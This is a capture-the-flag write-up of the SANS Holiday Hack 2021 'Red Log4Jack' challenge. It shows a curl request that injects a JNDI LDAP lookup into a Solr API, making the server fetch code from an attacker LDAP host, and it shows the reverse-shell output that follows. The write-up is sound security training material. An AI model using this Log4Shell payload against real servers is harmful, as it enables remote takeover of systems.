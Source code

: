 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 15. Bonus! Red Log4Jack
The objective is to exploit the recent Log4Jack vulnerability.

### 15.0. Hints
**Log4j Discussion with Bishop Fox** - *Icky McGoop*: “Join Bishop Fox for [a discussion](https://bishopfox.com/blog/log4j-zero-day-cve-2021-44228) of the issues involved.”  
**Log4j Red Help Document** - *Icky McGoop*: “Josh Wright's [help document](https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4) for the Red challenge.”

#### 15.1. Solution
We know the vulnerable server is http://solrpower.kringlecastle.com:8983 and that is running Java Solr which is vulnerable to the Log4j attack on its [CoreAdmin APIs](https://solr.apache.org/guide/6_6/coreadmin-api.html). Coding an exploit like the [one presented by Josh Wright](https://solr.apache.org/guide/6_6/coreadmin-api.html), using [marshalsec](https://github.com/mbechler/marshalsec)’s server and then making Solr point to that allowed spawning a reverse shell to the vulnerable server:
```bash
~/web$ curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?var=$\{jndi:ldap://172.17.0.2:1389/exploit\}'
{
  "responseHeader":{
    "status":0,
    "QTime":105},
  "initFailures":{},
  "status":{}}
}
```

The reverse shell:
```bash
listening on [172.17.0.2] 4444 ...
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.2] 50324

cat /home/solr/kringle.txt
The solution to Log4shell is patching.
Sincerly,

Santa
```

## 16. [That’s how Jack came from space](/README.md#16-thats-how-jack-came-from-space)
## 17. [Narrative](/README.md#17-narrative)
## 18. [Conclusions](/README.md#18-conclusions)
---
## 0. [windovo\\thedead> whoami](/README.md)
## 1. [KringleCon Orientation](/01.%20KringleCon%20Orientation/README.md)
## 2. [Where in the World is Caramel Santiaigo?](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/README.md)
### 2.1. [Side Challenge - Exif Metadata](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/02.01.%20Side%20Challenge%20-%20Exif%20Metadata/README.md)
## 3. [Thaw Frost Tower's Entrance](/03.%20Thaw%20Frost%20Tower's%20Entrance/README.md)
### 3.1. [Side Challenge - Grepping for Gold](/03.%20Thaw%20Frost%20Tower's%20Entrance/03.01.%20Grepping%20for%20Gold/README.md)
## 4. [Slot Machine Investigation](/04.%20Slot%20Machine%20Investigation/README.md)
### 4.1. [Side Challenge - Logic Munchers](/04.%20Slot%20Machine%20Investigation/04.01.%20Side%20Challenge%20-%20Logic%20Munchers/README.md)
## 5. [Strange USB Device](/05.%20Strange%20USB%20Device/README.md)
### 5.1. [Side Challenge - IPv6 Sandbox](/05.%20Strange%20USB%20Device/05.01.%20Side%20Challenge%20-%20IPv6%20Sandbox/README.md)
## 6. [Shellcode Primer](/06.%20Shellcode%20Primer/README.md)
### 6.1. [Side Challenge - Holiday Hero](/06.%20Shellcode%20Primer/06.01.%20Side%20Challenge%20-%20Holiday%20Hero/README.md)
## 7. [Printer Exploitation](/07.%20Printer%20Exploitation/README.md)
## 8. [Kerberoasting on an Open Fire](/08.%20Kerberoasting%20on%20an%20Open%20Fire/README.md)
### 8.1. [Side Challenge - HoHo … No](/08.%20Kerberoasting%20on%20an%20Open%20Fire/08.01.%20Side%20Challenge%20-%20HoHo%20…%20No/README.md)
## 9. [Splunk!](/09.%20Splunk!/README.md)
### 9.1. [Side Challenge - Yara Analysis](/09.%20Splunk!/09.01.%20Yara%20Analisys/README.md)
## 10. [Now Hiring!](/10.%20Now%20Hiring!/README.md)
### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)
## 11. [Customer Complaint Analysis](/11.%20Customer%20Complaint%20Analysis/README.md)
### 11.1. [Side Challenge - Strace Ltrace Retrace](/11.%20Customer%20Complaint%20Analysis/11.01%20Side%20Challenge%20-%20Strace%20Ltrace%20Retrace/README.md)
## 12. [Frost Tower Website Checkup](/12.%20Frost%20Tower%20Website%20Checkup/README.md)
### 12.1. [Side Challenge - The Elf C0de Python Edition](/12.%20Frost%20Tower%20Website%20Checkup/12.01.%20Side%20Challenge%20-%20The%20Elf%20C0de%20Python%20Edition/README.md)
## 13. [FPGA Programming](/13.%20FPGA%20Programming/README.md)
### 13.1. [Side Challenge - Frostavator](/13.%20FPGA%20Programming/13.01.%20Side%20Challenge%20-%20Frostavator/README.md)
## 14. [Bonus! Blue Log4Jack](/14.%20Bonus!%20Blue%20Log4Jack/README.md)
---